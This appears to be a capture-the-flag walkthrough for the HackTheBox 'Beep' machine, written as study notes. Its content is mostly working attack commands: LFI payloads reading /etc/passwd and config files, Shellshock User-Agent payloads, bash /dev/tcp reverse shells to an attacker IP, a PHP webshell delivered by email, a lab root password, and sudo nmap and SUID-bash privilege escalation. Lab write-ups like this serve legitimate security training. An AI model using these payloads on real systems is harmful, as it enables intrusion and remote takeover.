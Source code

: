 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
[Done](Done)

## 🛰️ Recon

### 🔍 Full TCP Port Scan
```bash
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.7
```

### 🔍 Targeted Script Scan
```bash
nmap -sC -sV -p 22,25,80,110,111,143,443,745,993,995,3306,4190,4445,4559,5038,10000 -oA nmap/scriptstcp 10.10.10.7
```

### 🔍 Scan for SSL Protocols
```bash
sslscan 10.10.10.7
```

---

## 🌐 Web Enumeration

### 🔍 HTTPS Redirect from Port 80
- Access via: `https://10.10.10.7/`

### 🔍 Directory Bruteforce
```bash
dirsearch.py -u https://10.10.10.7/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e txt,php -t 50
```

> Notable: `/admin`, `/vtigercrm`, `/recordings`, `/configs`, `/mail`, `/panel`

---

[Elastix Exploit](https://github.com/A1vinSmith/FreePBX-2.10.0---Elastix-2.2.0---Remote-Code-Execution/blob/master/exploit.py)  -> change to python3

```
import urllib2 -> from urllib import request
```

```
change urllib2 on the bottom to request
```

use exploit

```bash
rlwrap nc -lvnp 4444
```

elevate priv

```bash
sudo nmap --interactive  
!sh
```

## 🗂️ Local File Inclusion (LFI)

### 🔍 Exploit LFI
```bash
curl "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/passwd%00&module=Accounts&action"
```

---

## 📥 Credential Collection

### 📁 Read Config for Passwords
```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action
```

---

## ✉️ [SMTP](SMTP) User Discovery

### 📫 VRFY with Telnet
```bash
telnet 10.10.10.7 25
EHLO test
VRFY fanis
VRFY cyrus
```

---

## 🧑‍💻 Exploit Paths

---

## [Path #1] 💥 RCE via 18650.py (Elastix)

### 🔍 Identify Extension
```bash
svwar -m INVITE -e100-999 10.10.10.7
```

### 🛠️ Patch Python Script for TLSv1.0
```python
ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE
urllib.urlopen(url, context=ctx)
```

### ⚙️ Run Exploit
```bash
python2 18650.py
```

### 🐚 Listener
```bash
nc -lnvp 443
```

---

## [Path #2] 🌐 [Webmin Login](HTTP)

### 🔑 Login
- URL: `https://10.10.10.7:10000`
- Creds: `root / jEhdIekWmdjE`

### 🧨 Reverse Shell via Scheduled Command
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"
```

### 🐚 Listener
```bash
nc -lnvp 443
```

---

## [Path #3] 🔐 [SSH](SSH) as root

```bash
ssh root@10.10.10.7
# Password: jEhdIekWmdjE
```

---

## [Path #4] ☠️ Shellshock via Webmin CGI

### 🧪 Proof of Concept
```http
User-Agent: () { :; }; ping -c 1 10.10.14.2
```

### 🐚 Reverse Shell Payload
```http
User-Agent: () { :; }; bash -i >& /dev/tcp/10.10.14.2/8081 0>&1
```

### 🐚 Listener
```bash
nc -lnvp 8081
```

---

## [Path #5] 📧 Webshell Upload via Email + LFI

### 📤 Send PHP Shell via Email
```bash
swaks --to asterisk@localhost \
--from 0xdf@0xdf.htb \
--header "Subject: shell" \
--body '<?php system($_REQUEST["cmd"]); ?>' \
--server 10.10.10.7
```

### 🔍 Access Webshell via LFI
```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action&cmd=id
```

---

## 🛗 Privilege Escalation

### [1] 🚪 `nmap` Interactive Shell
```bash
sudo nmap --interactive
nmap> !bash
```

### [2] 📦 SUID Binary Trick via `chmod`
```bash
sudo chmod 4755 /bin/bash
bash -p
```
